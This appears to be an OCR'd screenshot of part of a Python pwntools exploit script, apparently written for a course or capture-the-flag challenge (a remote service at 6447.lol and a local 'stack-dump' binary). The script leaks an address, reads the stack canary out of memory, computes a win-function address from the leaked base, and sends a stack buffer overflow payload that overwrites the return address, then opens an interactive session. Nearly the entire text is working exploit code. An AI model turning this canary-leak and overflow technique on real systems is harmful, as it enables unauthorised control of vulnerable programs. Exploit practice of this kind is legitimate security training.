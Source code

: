 	    prompt = p.recvuntil(b'[q]uit').decode('utf-8')
	    address_match = re.search(r'0x[0-9a-fA-F]+', prompt)
	    if address_match:
	        address = int(address_match.group(0), 16)  # Convert address to integer
	        print("address:", hex(address))
	
	        canary_address = address + 65
	        print("Modified address (address + 65):", hex(canary_address))
	
	        # Send the "i" command to the process
	        p.sendline(b"i")
	        p.recvuntil(b'len:')
	        p.sendline(p64(canary_address))
	
	        p.sendline(b"\nd")
	        p.recvuntil(b': ').decode('utf-8')
	        stack_canary = p.recv(8)
	        # stack_canary = stack_canary[::-1]
	        print("canary:", stack_canary, len(stack_canary))
	        # get win adr
	        p.sendline(b"\n\np")
	        line = p.recvuntil(b'heap').decode('latin-1').rstrip()
	        print('line:', line)
	        #
	        base_address = get_base_address(line)
	        print("base_address:", base_address)
	        win_addr_int = int(base_address, 16) + int('0x1219', 16)
	        print("win_addr_int:", hex(win_addr_int))
	        win_addr = p64(win_addr_int)
	        #
	        # make bufferoverflow
	        p.sendline(b"\n\ni")
	        p.recvuntil(b'len:')
	
	        payload = b"A" * 56 + stack_canary + b"A" * 24 + win_addr
	        p.sendline(payload)
	        print("payload: ", payload)
	
	        p.recvline().decode('utf-8')
	        p.recvline().decode('utf-8')
	        p.sendline(b"\n\n\nq")
	
	
	    p.interactive()
	
	
	# Example usage
	interact_with_process('', '6447.lol', 5003)
	# interact_with_process('../w2/stack-dump')
	